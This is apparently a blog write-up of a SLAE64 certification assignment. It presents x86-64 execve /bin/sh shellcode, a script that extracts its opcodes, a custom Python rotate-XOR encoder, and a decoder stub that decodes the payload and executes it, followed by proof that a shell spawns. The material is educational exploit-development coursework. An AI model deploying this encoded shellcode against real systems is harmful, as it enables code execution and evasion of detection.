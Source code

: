 ```yaml
---
layout: post
title:  "Slae64 Assignment #4"
date:   2018-05-25 00:10:45
categories: jekyll update
---
```


# SLAE Assignment #4

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online‐courses/securitytube-linux-assembly-expert/

Student ID: SLAE64 - 1525

## Assignment

* Create a custom encoding scheme like the "Insertion Encoder" we showed you 
* PoC with using execve-stack as the shellcode to encode with your schema and execute

## Theoretical description

Starting from 0xaa every next byte is rotated by 3 and xor encoded with the previous byte, creating a kind of encrypting chain

## Implementation

The implementation starts with shellcode extraction for the execve-stack

### Opcode extraction

The already written assembler code that execute a shell (execve-stack) is the following

```
; Filename: execve-nasm.nasm
; Author:  SLAE64 - 1525
;
; Purpose: execute /bin/sh
BITS 64

global _start

section .text

; settings
SH equ 0x68732f6e69622f2f

; syscall kernel opcodes
SYS_EXECVE equ 0x3b

_start:
    xor rax, rax
    push rax
    pop rdx         
    push rdx
    mov rbx, SH ; build //bin/sh
    push rbx ; copy ¨//bin/sh¨ string to stack
    mov rdi, rsp ; get the address for /bin/sh string
    push rax ; build args array, by pushing NULL
    push rdi ; then pushing string address
    mov rsi, rsp ; args array address
	push SYS_EXECVE
    pop rax
    syscall
```

let's extract the shellcode in the usual way with the aid of the following helper script:

```
#!/bin/bash

echo '######### NASM #########'

echo '[+] Assembling with Nasm ... '
nasm -f elf64 -o decoder.template.nasm.o decoder.template.nasm
echo '[+] Done!'

echo '[+] Linking ...'
ld -z execstack -o decoder.template.nasm.bin decoder.template.nasm.o
echo '[+] Done!'

rm -rf decoder.template.nasm.o

echo '[+] Objdump ...'
mycode=`objdump -d ./decoder.template.nasm.bin |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\\x/g'|paste -d '' -s |sed 's/^/"/' | sed 's/$/"/g'`
echo $mycode
```

Let's execute it

```
$ ./compile-execve-stack.sh 
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05"
```

Hence the shellcode is the following:

```
\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05
```

### Custom python encoder

Here follows the python encoder, it takes as input a shellcode and generate the corresponding encoded one to prepend before the decoding stub:

```python
#!/usr/bin/env python
# Python Custom Rotating - Xor Encoder
# Author: SLAE64 - 1525

shellcode = '\x48\x31\xc0\x50\x5a\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x6a\x3b\x58\x0f\x05'
rotation = 3

encoded = ""
encoded2 = ""

print('Encoded shellcode ...')

# Initialized with 0xaa
previous_byte = 0xaa

for x in bytearray(shellcode):
    # rotate left with 3
    new_byte = 0
    new_byte = x << rotation
    y = (new_byte & 0xff) + (new_byte >> 8)
    # xor with the previous byte
    z = y ^ previous_byte
    previous_byte = x
    encoded += '\\x'
    encoded += '%02x' % z

    encoded2 += '0x'
    encoded2 += '%02x,' % z

print(encoded)
print(encoded2)
print('Len: ', len(bytearray(shellcode)))
```

## Decoder stub

here follows the assembler code of the decoder stub

```

; Filename: Decoder.nasm
; Author:  SLAE64 - 1525
;
; Purpose: decode bytecode with progressive xor

BITS 64

global _start

section .data ; read/write

EncodedShellcode db 0xe8,0xc1,0x37,0x42,0x82,0xc8,0x10,0x95,0xc2,0x56,0x3c,0x29,0x1a,0x17,0xb4,0x30,0xf2,0x11,0x04,0xb6,0x65,0xea,0x15,0x04,0xbe,0xb5,0xb3,0xf9,0x20,0x27
EncodedShellcodeLenght equ $-EncodedShellcode

section .text ; readonly

InitialXORValue equ 0xaa

_start:

decoder:
	lea rdi, [rel EncodedShellcode]

	push EncodedShellcodeLenght ; shellcode lenght
	pop rcx
	
    push InitialXORValue ; initial value of XOR operation
    pop rdx

decode:
	xor dl, byte [rdi]  ; xor with the current byte
	ror dl, 3           ; rotate right with 3
	mov [rdi], dl  ; save back the transformed byte
	inc rdi
	loop decode

	jmp EncodedShellcode ; jump to the original shellcode now decoded

```

## Proof of execution

Once executed the shellcode leads to the following

```
$ ./compile-decoder-template.sh 
######### NASM #########
[+] Assembling with Nasm ... 
[+] Done!
[+] Linking ...
[+] Done!
[+] Objdump ...
"\x48\x8d\x3d\x1d\x00\x20\x00\x6a\x1e\x59\x68\xaa\x00\x00\x00\x5a\x32\x17\xc0\xca\x03\x88\x17\x48\xff\xc7\xe2\xf4\xe9\x03\x00\x20\x00"
$ ./decoder.template.nasm.bin 
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
$ 

```